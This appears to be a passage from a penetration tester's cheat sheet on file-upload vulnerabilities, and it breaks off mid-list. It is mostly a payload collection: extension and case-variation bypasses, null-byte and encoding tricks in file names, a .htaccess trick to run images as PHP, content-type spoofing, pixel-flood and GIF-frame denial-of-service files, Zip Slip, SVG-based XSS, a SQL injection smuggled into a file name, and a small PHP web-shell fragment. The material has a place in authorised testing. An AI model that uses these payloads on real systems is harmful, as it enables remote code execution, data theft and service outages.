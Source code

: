         ```jsx
        upload.random123				---	To test if random file extensions can be uploaded.
        upload.php							---	try to upload a simple php file.
        upload.php.jpeg 				--- 	To bypass the blacklist.
        upload.jpg.php 					---	To bypass the blacklist. 
        upload.php 							---	and Then Change the content type of the file to image or jpeg.
        upload.php*							---	version - 1 2 3 4 5 6 7.
        upload.PHP							---	To bypass The BlackList.
        upload.PhP							---	To bypass The BlackList.
        upload.pHp							---	To bypass The BlackList.
        upload .htaccess 				--- 	By uploading this [jpg,png] files can be executed as php with milicious code within it.
        pixelFlood.jpg					---	To test againt the DOS.
        frameflood.gif					---	upload gif file with 10^10 Frames
        Malicious zTXT  				--- 	upload UBER.jpg 
        Upload zip file					---	test againts Zip slip (only when file upload supports zip file)
        Check Overwrite Issue		--- 	Upload file.txt and file.txt with different content and check if 2nd file.txt overwrites 1st file
        SVG to XSS							---	Check if you can upload SVG files and can turn them to cause XSS on the target app
        SQLi Via File upload		---	Try uploading `sleep(10)-- -.jpg` as file
        ```
        
    - Payloads
        
        ```jsx
        # File name validation
            # extension blacklisted:
            PHP: .phtm, phtml, .phps, .pht, .php2, .php3, .php4, .php5, .shtml, .phar, .pgif, .inc
            ASP: .asp, .aspx, .cer, .asa
            Jsp: .jsp, .jspx, .jsw, .jsv, .jspf
            Coldfusion: .cfm, .cfml, .cfc, .dbm
            Using random capitalization: .pHp, .pHP5, .PhAr
            pht,phpt,phtml,php3,php4,php5,php6,php7,phar,pgif,phtm,phps,shtml,phar,pgif,inc
            # extension whitelisted:
            file.jpg.php
            file.php.jpg
            file.php.blah123jpg
            file.php%00.jpg
            file.php\x00.jpg
            file.php%00
            file.php%20
            file.php%0d%0a.jpg
            file.php.....
            file.php/
            file.php.\
            file.
            .html
        # Content type bypass
            - Preserve name, but change content-type
            Content-Type: image/jpeg, image/gif, image/png
        # Content length:
            # Small bad code:
            <?='$_GET[x]'?>
            